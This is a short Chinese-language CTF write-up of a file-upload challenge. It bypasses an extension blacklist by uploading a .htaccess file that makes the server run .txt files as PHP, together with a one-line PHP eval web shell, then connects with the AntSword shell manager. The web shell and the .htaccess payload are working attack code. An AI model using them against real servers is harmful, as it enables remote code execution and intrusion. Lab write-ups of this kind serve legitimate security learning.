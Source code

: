 ### 解题

查看源码发现有一堆不能上传的文件后缀

![](images/yuanma-1.png)

题目中有提示，上网搜了下htaccess

> .htaccess文件(或者"[分布式](https://so.csdn.net/so/search?q=%E5%88%86%E5%B8%83%E5%BC%8F\&spm=1001.2101.3001.7020)配置文件"）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。
>

创建一个er.txt的文件，写入

```php
<?php @eval($_POST["ctf"]);?>

```

创建一个.htaccess的文件，写入

```php
AddType application/x-httpd-php .txt
```

作用：服务器会将所有扩展名为 **`.txt`** 的文件当&#x4F5C;**&#x20;PHP 脚本进行处理**

将文件上传上去，接着使用蚁剑连接
